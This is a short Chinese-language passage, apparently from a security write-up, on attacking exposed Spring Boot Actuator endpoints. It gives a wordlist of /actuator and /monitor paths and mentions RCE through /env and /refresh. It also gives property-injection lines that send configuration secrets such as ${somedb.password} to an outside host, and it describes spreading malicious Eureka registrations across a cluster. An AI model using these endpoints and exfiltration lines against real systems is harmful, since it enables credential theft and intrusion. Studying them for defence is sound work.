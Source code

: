 ```
/actuator
/actuator/auditevents
/actuator/beans
/actuator/health
/actuator/conditions
/actuator/configprops
/actuator/env
/actuator/info
/actuator/loggers
/actuator/heapdump
/actuator/threaddump
/actuator/metrics
/actuator/scheduledtasks
/actuator/httptrace
/actuator/mappings
/actuator/jolokia
/actuator/hystrix.stream
/monitor
/monitor/auditevents
/monitor/beans
/monitor/health
/monitor/conditions
/monitor/configprops
/monitor/env
/monitor/info
/monitor/loggers
/monitor/heapdump
/monitor/threaddump
/monitor/metrics
/monitor/scheduledtasks
/monitor/httptrace
/monitor/mappings
/monitor/jolokia
/monitor/hystrix.stream


```

这里通过 `/env` + `/refresh` 进行 rce 应该还有其他利用手法, 当 spring boot reload 的时候会进行一些默认操作

里面就有操作空间, 很像 fastjson 反序列化

2\. 就算实在不能 RCE, 这里也有个技巧可以偷取 Spring 配置文件中的加密字段, 偷一下生产环境的密码 / key 也 ok

`eureka.client.serviceUrl.defaultZone=http://${somedb.password}@127.0.0.1:5000`

**这里`LandGrey`师傅指出: 这个认证头会被忽略**  
~`spring.cloud.bootstrap.location=http://${somedb.password}@artsploit.com/yaml-payload.yml`~

修改为以下利用  
`spring.cloud.bootstrap.location=http://127.0.0.1:8888/${somedb.password}.yml`

3\. 尤其是使用 spring eureka 做集群的时候, 通常拿到一台服务器, 就可以传递恶意注册到其他 server, 从而感染整个微服务集群
